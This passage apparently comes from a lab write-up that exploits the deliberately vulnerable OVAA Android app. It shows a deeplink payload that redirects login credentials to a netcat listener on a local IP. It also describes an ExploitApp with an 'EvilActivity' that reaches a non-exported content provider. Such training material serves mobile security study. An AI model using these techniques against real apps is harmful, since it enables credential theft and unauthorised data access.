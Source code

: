 ![Decompiled Code Snippet of LoginActivity](Kerberos_files/image003.png)

Line 63 of `LoginActivity` is starting a `LoginService` that sends the login credentials to the `LOGIN_URL_KEY`. Since the `LOGIN_URL_KEY` is controlled by the user, we can provide the URL which we have access to and then sniff the credentials.

Let’s open a netcat connection to listen to the interface to which the emulator is connected:

**Payload**:
```
oversecured://ovaa/login?url=http://192.168.56.1:9001
```

Open a web browser and paste this link. It should redirect you to a login page. After a few seconds, the netcat will receive a POST request that contains the credentials.

![Netcat Listener on Port 9001](Kerberos_files/image004.png)

### 2. Obtaining Access to Arbitrary Non-Exported Content Providers

In this challenge, we have to access a content provider which is not exported but can be accessed if it has the flag `Intent.FLAG_GRANT_READ_URI_PERMISSION` set. This flag grants permission to perform read operations on the URL in the intent’s data.

In the `DeeplinkActivity` class, we can notice that the application is using the `startActivityForResult` method to open an activity. Sometimes we want to get a result back from an activity when it ends. For example, we may start an activity that lets the user pick a person from a list of contacts; when it ends, it returns the person that was selected. To do this, you call the `startActivityForResult(Intent, int)` version with a second integer parameter identifying the call. The result will come back through our `onActivityResult(int, int, Intent)` method.

![Code Snippet of DeeplinkActivity](Kerberos_files/image005.png)

However, after going through the code, we find out that the `onActivityResult` method never gets executed because of a `finish` method called after `processDeeplink`. Since the `finish` method will destroy the current activity, the activity is no longer waiting for the result to come back.

![Code Snippet of DeeplinkActivity](Kerberos_files/image006.png)

To make it work, we need to remove the `finish` method from Line 30 and add it to Line 73 as shown below.

![Code Snippet of DeeplinkActivity](Kerberos_files/image007.png)

Now that you have understood the methods and their working, let’s understand how we are going to exploit this vulnerability using an ExploitApp.

First, we created an ExploitApp with two activities named `MainActivity` and `EvilActivity`.

![AndroidManifest File of ExploitApp](Kerberos_files/image008.png)

`EvilActivity` of ExploitApp has action set to `oversecured.ovaa.action.GRANT_PERMISSIONS` which means that `DeeplinkActivity` of OVAA app will start this activity if no other activity can handle the intent.
